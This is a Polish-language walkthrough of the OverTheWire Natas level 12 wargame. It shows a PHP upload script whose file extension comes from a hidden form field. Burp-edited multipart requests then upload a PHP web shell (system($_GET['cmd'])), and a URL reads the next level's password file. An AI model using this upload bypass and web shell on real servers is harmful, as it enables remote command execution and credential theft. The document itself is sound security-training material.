




Strona posiada możliwość wrzucenia pliku w formacie jpeg o maksymalnej wielkości 1kb.


Kod źródłowy:
```php
<?php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```

Z kodu wynika, że po wrzuceniu pliku jest tworzona ścieżka do pliku z losowym ciągiem 10 znaków, a następnie jeżeli plik jest mniejszy niż 1KB to jest wrzucany na stronę i wyświetlany jest do niego link. Ważnym aspektem jest to, że nie jest sprawdzane rozszerzenie wrzucanego pliku. Dodanie pliku .txt skutkuje wrzuceniem go na stronę z tym, że link do niego będzie z końcówką .jpg.

W celu wykorzystania tej luki można stworzyć plik .php zawierający kod w celu dostania się do pliku z hasłem. Do tego zadania można wykorzystać burp suite, którym zmieni się dane w żądaniu.

``` http
-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="MAX_FILE_SIZE"


1000

-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="filename"


nx8w6bp4cm.jpg

-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="uploadedfile"; filename="Untitled.php.jpeg"

Content-Type: image/jpeg


ÿØÿà
```

Podane żądanie wysyła plik Untitled.php.jpeg na stronę a sam plik jest prostym obrazkiem. Zmieniając w nim dane takie jak filename z końcówki .jpg na .php oraz Content-Type na text/plain, można podmienić dane obrazka na kod php czy html i wysłać na serwer.

```http
-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000

-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="filename"

nx8w6bp4cm.php

-----------------------------16669131631235052687185842707

Content-Disposition: form-data; name="uploadedfile"; filename="Untitled.php"

Content-Type:text/plain

<html>
<body>
<div class="menu">
<?php include 'menu.php';?>
</div>
<h1>Welcome to my home page!</h1>
<p>Some text.</p>
<p>Some more text.</p>
</body>
</html> 
-----------------------------16669131631235052687185842707--
```

Wysłanie takiego pliku spowoduje pojawienie się linku do niego na stronie:


Wejście w niego zwróci napisany kod:



Wiedząc, że ta metoda działa można wysłać plik z kodem pozwalającym na wysyłanie poleceń do powłoki systemu poprzez argument w url.

```http
Content-Disposition: form-data; name="uploadedfile"; filename="Untitled.php"

Content-Type:text/plain

<?php system($_GET['cmd']);?>

-----------------------------16669131631235052687185842707--

```

Teraz po wejściu w link do tego pliku poprzez przekazanie parametru cmd w url strony będą wykonywane polecenia poprzez funkcję system(). Jest to prosta implementacja web shell w PHP.



Wpisanie w url:
```url
http://natas12.natas.labs.overthewire.org/upload/v7bg91y73p.php?cmd=cat%20../../../../../etc/natas_webpass/natas13
```
zwróci hasło do następnego poziomu.